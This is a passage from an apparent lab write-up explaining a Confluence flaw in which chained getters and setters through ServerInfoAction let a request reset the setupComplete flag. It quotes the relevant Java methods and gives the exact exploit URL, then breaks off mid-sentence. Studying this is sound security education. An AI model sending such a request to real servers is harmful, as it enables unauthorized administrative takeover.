 <p>This would execute setId('123') as defined in the corresponding Action class.</p>

<h3>Chaining Getters/Setters to Reenable the Initial Setup</h3>
<p>The reported exploit takes advantage of the ServerInfoAction Action. The reason for picking this specific Action is that we can build a chain of getters/setters from it to set the configuration parameter that turns the initial setup on or off.<br>

If you analyse the code of the ServerInfoAction class, you'll see it extends the ConfluenceActionSupport class. By doing so, it will inherit all of its methods as well. One such method is a getter that returns a BootstrapStatusProvider object:</p>

<pre><code>
public class ConfluenceActionSupport extends ActionSupport implements LocaleProvider, WebInterface, MessageHolderAware {
  public BootstrapStatusProvider getBootstrapStatusProvider() {
    if (this.bootstrapStatusProvider == null)
      this.bootstrapStatusProvider = BootstrapStatusProviderImpl.getInstance(); 
    return this.bootstrapStatusProvider;
  }
}
</code></pre>

<p>We care about the BootstrapStatusProvider class because it has another getter method we can use to retrieve an ApplicationConfiguration object:</p>

<pre><code>
public class BootstrapStatusProviderImpl implements BootstrapStatusProvider, BootstrapManagerInternal {
  public ApplicationConfiguration getApplicationConfig() {
    return this.delegate.getApplicationConfig();
  }
}
</code></pre>

<p>As you have probably guessed by now, this object contains the application's configuration, including an attribute that tells Confluence if the initial setup has been finished. Such attribute can be modified by using a setter in the ApplicationConfig class:</p>

<pre><code>$
public class ApplicationConfig implements ApplicationConfiguration {
  public synchronized void setSetupComplete(boolean setupComplete) {
    this.setupComplete = setupComplete;
  }  
}
</code></pre>

<p>If we call setSetupComplete(false), we will effectively reenable the initial setup. Putting it all together, we can call that chain of getters/setters by accessing the following URL:</p>

<pre><code>
http://10.10.245.48:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
</code></pre>

<p>This will be effectively translated by XWork into a call to:</p>
